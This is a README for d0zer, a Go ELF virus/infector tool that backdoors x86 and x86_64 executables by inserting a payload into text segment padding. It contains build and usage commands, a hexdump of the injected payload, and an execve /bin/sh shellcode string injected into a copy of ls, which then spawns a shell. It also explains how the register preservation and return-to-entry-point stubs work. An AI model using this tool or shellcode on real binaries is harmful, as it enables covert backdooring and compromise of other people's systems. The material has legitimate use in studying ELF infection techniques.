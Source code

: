 # d0zer
Elf binary infector written in Golang. It can be used for infecting executables of type ET_DYN and ET_EXEC with a payload of your creation. Utilizing the classic elf text segment padding algorithm by Silvio Cesar, your payload (parasite) will run before native functionality of the binary effectively backooring the binary.

d0zer currently allows for up to a page size payload (4096 bytes). It is capable of infecting both x86_32 and x86_64  elf executable binaries executables.

# Motivation
My motivations are quite simple, I like doing interesting things with the ELF's and binary infections of a target requires a decent amount of overhead knowledge and skill prequisite to perform it (TO ME), so I set out to learn from papers, books and specs from the past (see references), throwed Golang in the middle for increased difficulty and here I am.

# build

<pre> 
[sad0p@Arch-Deliberate d0zer]$ go version
go version go1.16.3 gccgo (GCC) 11.1.0 linux/amd64
[sad0p@Arch-Deliberate d0zer]$ go build d0zer.go epiloguejmp.go 
</pre>

# Usage

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer --help
Usage of ./d0zer:
  -debug
    	see debug output (generated payload, modifications, etc)
  -noPreserve
    	prevents d0zer from prepending its register preservation routine to your payload
  -noRestoration
    	prevents d0zer from appending register restoration routine to your payload
  -noRetOEP
    	prevents d0zer from appending ret-to-OEP (continue execution after payload) to payload
  -payloadBin string
    	path to binary containing payload
  -payloadEnv string
    	name of the environmental variable holding the payload
  -target string
    	path to binary targetted for infection
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Basic demo (benign) infection can be accomplished with `./dozer -target [path-to-target]`.

<pre> 
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
hello -- this is a non destructive payloadd0zer	     epiloguejmp.go  jmp-to-oep32      jmp-to-oep.o		  non-destructive-payload32.asm  non-destructive-payload64.o  shellcode.c
d0zer.go     experimental    jmp-to-oep32.asm  LICENSE			  non-destructive-payload32.o	 output			      test
elf64	     genpayload.go   jmp-to-oep32.o    non-destructive-payload	  non-destructive-payload64	 README.md		      test.go
epiloguejmp  jmp-to-oep      jmp-to-oep.asm    non-destructive-payload32  non-destructive-payload64.asm  shellcode
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Supplying `-debug` allows you to see each step of the infection algorithm at work aswell as a hexdump of the payload as it will be in the binary. 

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -debug
[+] Modified entry point from 0x5b20 -> 0x173d1
[+] Text segment starts @ 0x4000
[+] Text segment ends @ 0x173d1
[+] Payload size pre-epilogue 0x5c
[+] Payload size post-epilogue 0x90
------------------PAYLOAD----------------------------
00000000  50 51 53 52 56 57 55 54  41 50 41 51 41 52 41 53  |PQSRVWUTAPAQARAS|
00000010  41 54 41 55 41 56 41 57  eb 00 e8 2b 00 00 00 68  |ATAUAVAW...+...h|
00000020  65 6c 6c 6f 20 2d 2d 20  74 68 69 73 20 69 73 20  |ello -- this is |
00000030  61 20 6e 6f 6e 20 64 65  73 74 72 75 63 74 69 76  |a non destructiv|
00000040  65 20 70 61 79 6c 6f 61  64 0a b8 01 00 00 00 bf  |e payload.......|
00000050  01 00 00 00 5e ba 2a 00  00 00 0f 05 41 5f 41 5e  |....^.*.....A_A^|
00000060  41 5d 41 5c 41 5b 41 5a  41 59 41 58 5c 5d 5f 5e  |A]A\A[AZAYAX\]_^|
00000070  5a 5b 59 58 e8 12 00 00  00 48 83 e8 79 48 2d d1  |Z[YX.....H..yH-.|
00000080  73 01 00 48 05 20 5b 00  00 ff e0 48 8b 04 24 c3  |s..H. [....H..$.|
--------------------END------------------------------
[+] Generated and appended position independent return 2 OEP stub to payload
[+] Increased text segment p_filesz and p_memsz by 144 (length of payload)
[+] Adjusting segments after text segment file offsets by 0x%x 4096
Inceasing pHeader @ index 4 by 0x1000
Inceasing pHeader @ index 5 by 0x1000
Inceasing pHeader @ index 6 by 0x1000
Inceasing pHeader @ index 8 by 0x1000
Inceasing pHeader @ index 10 by 0x1000
[+] Increasing section header addresses if they come after text segment
[+] Extending section header entry for text section by payload len.
[+] (15) Updating sections past text segment @ addr 0x18000
[+] (16) Updating sections past text segment @ addr 0x1d324
[+] (17) Updating sections past text segment @ addr 0x1dc78
[+] (18) Updating sections past text segment @ addr 0x21fd0
[+] (19) Updating sections past text segment @ addr 0x21fd8
[+] (20) Updating sections past text segment @ addr 0x21fe0
[+] (21) Updating sections past text segment @ addr 0x22a58
[+] (22) Updating sections past text segment @ addr 0x22c58
[+] (23) Updating sections past text segment @ addr 0x23000
[+] (24) Updating sections past text segment @ addr 0x23280
[+] (25) Updating sections past text segment @ addr 0x0
[+] (26) Updating sections past text segment @ addr 0x0
[+] writing payload into the binary
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

A custom payload can be injected into the binary with the `-payloadEnv` flag. Below I inject a basic execve /bin/sh shellcode into the ls command as an example.

<pre>
[sad0p@Arch-Deliberate d0zer]$ export DOZEREGG="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadEnv DOZEREGG
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
sh-5.1$ 
</pre>

The `-payloadBin` flag is currently not implemented, it would allow you to supply a PIE (binary), where the contents of the text
segments would serve as the payload.

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadBin ./non-destructive-payload64
Getting payload from an ELF binary .text segment is not yet supported
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

# Advance Usage

In the event you don't like the routines d0zer add to your code the following flags can be utilized, however your payload
should handle any consequences that come comes from removing them.

The `-noPreserve` flag removes the general purpose register preservation routine. For x86_32 targets this is accomplished via a `pushad` instruction. For x86_64 targets, all general purpose registers are manually pushed onto the stack as the the `pushad` instruction in x86_64 is not valid. The overall purpose of this routine is to preserve register states after execution your payload, when control is handed back to libc runtime routine (OEP) it expects certain register values in order to properly execute. In some contexts, I was able to simply preserve the `RDX` register and no crashes occured, in others (using shellcode I downloaded) preserving `RDX` was not enough. So in order to stay "portable", I thought it was wise to save all state as I wasn't completely sure which registers were needed currently or in the future.

The `-noRestoration` flag removes the restoration routine, which is the opposite of the preservation routine, it performs a `popa` for x86_32 targets and a manual popping of each general purpose register from the stack.

The `-noRetOEP` flag removes the "return to original entry point" routine. This stub enables portability across pie (ET_DYN) and non-pie (ET_EXEC) elf executables. The code extracts the randomized base address after it captures the current instuction pointer value in accumulator register. It then substracts the payload length from the accumulator (+ 5 bytes for the relative call instruction) then adds the offset of the binaries OEP to then perform a `jmp rax` or `jmp eax` (for x86_32) instruction to start executing native/non-parasitic code. If you intend on handling this your self then your code must handle proper exiting of the binary to avoid SIGSEGV.

All preservation, restoration and ret-2-oep shellcode are heavily commented for clarity. Restoration and preservation stubs can be found at the top of the `d0zer.go` source file. The `ret2OEP` routine can be found in `epilogue.go`.

# Payload considerations

It's worth noting that code being injected (payload/parasite) should be position independent. Additionally with in your payload anything pushed onto the stack should be popped off if you choose to use restoration and preservations stubs (which d0zer prepends & appends by default). Due to the stacks LIFO structure, should anything (except the register values pushed in the preservation stub)be on there after you've executed your payload you run the risk of getting a SIGSEGV in the libc runtime routine.

# References
<pre>
Linux Binary Analysis by Ryan Oneil (Elfmaster), see virus technology chapter.

LPV (a unix virus) written in C utilizing the same algorithm as d0zer written by Elfmaster.
https://bitlackeys.org/projects/lpv.c

Unix ELF parasites and viruses - by Silvio Cesar
https://vx-underground.org/archive/VxHeaven/lib/vsc01.html

Return To Original Entry Point Despite PIE - by s0lden
https://tmpout.sh/1/11.html
</pre>